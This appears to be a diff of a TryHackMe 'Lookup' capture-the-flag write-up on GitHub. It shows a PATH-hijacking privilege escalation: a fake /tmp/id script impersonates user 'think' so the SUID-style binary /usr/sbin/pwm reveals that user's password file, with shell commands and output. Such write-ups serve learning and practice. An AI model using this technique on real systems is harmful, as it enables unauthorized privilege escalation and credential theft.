

Before and after one commit to Youssef-Mohamed100/Youssef-Mohamed100, a Markdown page: Linux Pentest/THM/Lookup.md, the part around one of its changes. Shown at 91% size. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/Linux Pentest/THM/Lookup.md
+++ b/Linux Pentest/THM/Lookup.md
@@ -124,4 +200,18 @@ bash: no job control in this shell
 ```
+
+During the enumeration, I discovered an interesting binary:
+
+`/usr/sbin/pwm`
+
+### Analyzing the pwm Binary
+
+I executed the binary to understand its behavior.
+
+```bash
+/usr/sbin/pwm
+```
+
+```text
 www-data@ip-10-129-131-171:/home$ /usr/sbin/pwm
 /usr/sbin/pwm
 [!] Running 'id' command to extract the username and user ID (UID)
@@ -130,27 +220,71 @@ www-data@ip-10-129-131-171:/home$ /usr/sbin/pwm
 www-data@ip-10-129-131-171:/home$
 ```
 
+The binary executes the `id` command to identify the current user and then attempts to read a corresponding `.passwords` file from the user's home directory.
+
+However, the execution fails because `/home/www-data/.passwords` does not exist.
+
+I checked the available home directories:
+
+```bash
+ls
 ```
+
+```text
 www-data@ip-10-129-131-171:/home$ ls
 ls
 ssm-user
 think
 ubuntu
+```
 
+Since the binary relies on the output of the `id` command to determine the username, I decided to investigate whether I could manipulate its execution by hijacking the `PATH` environment variable.
+
+### PATH Hijacking
+
+My approach was to create a fake `id` executable that returns the following output:
+
+`uid=33(think) gid=33(think) groups=33(think)`
+
+This would make the binary identify the current user as `think` and attempt to read `/home/think/.passwords`.
+
+First, I created the fake `id` script inside `/tmp`:
+
+```bash
+echo -e '#!/bin/bash\n echo "uid=33(think) gid=33(think) groups=33(think)"' > /tmp/id
 ```
-## this commmand excute command 'id' but it www-data don't have /home directory so i will hijack path
 
-## i will replace "uid=33(www-data) gid=33(www-data) groups=33(www-data)" with "uid=33(think) gid=33(think) groups=33(think)"
+Then, I made the script executable:
 
+```bash
+chmod +x /tmp/id
 ```
-www-data@ip-10-129-131-171:/home$ echo -e '#!/bin/bash\n echo "uid=33(think) gid=33(think) groups=33(think)"' > /tmp/id
-www-data@ip-10-129-131-171:/home$ chmod +x /tmp/id
-chmod +x /tmp/id
+
+I checked the current `PATH` variable:
+
+```bash
+$PATH
+```
+
+```text
 www-data@ip-10-129-131-171:/home$ $PATH
 $PATH
 bash: /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin: No such file or directory
-www-data@ip-10-129-131-171:/home$ export PATH=/tmp:$PATH
+```
+
+Next, I modified the `PATH` variable to prioritize `/tmp`, ensuring that the binary executes our fake `id` command instead of the original one.
+
+```bash
 export PATH=/tmp:$PATH
+```
+
+Finally, I executed the `pwm` binary again:
+
+```bash
+/usr/sbin/pwm
+```
+
+```text
 www-data@ip-10-129-131-171:/home$ /usr/sbin/pwm
 /usr/sbin/pwm
 [!] Running 'id' command to extract the username and user ID (UID)
````
Also changed, not shown: other parts of Linux Pentest/THM/Lookup.md (+168 -38 lines).
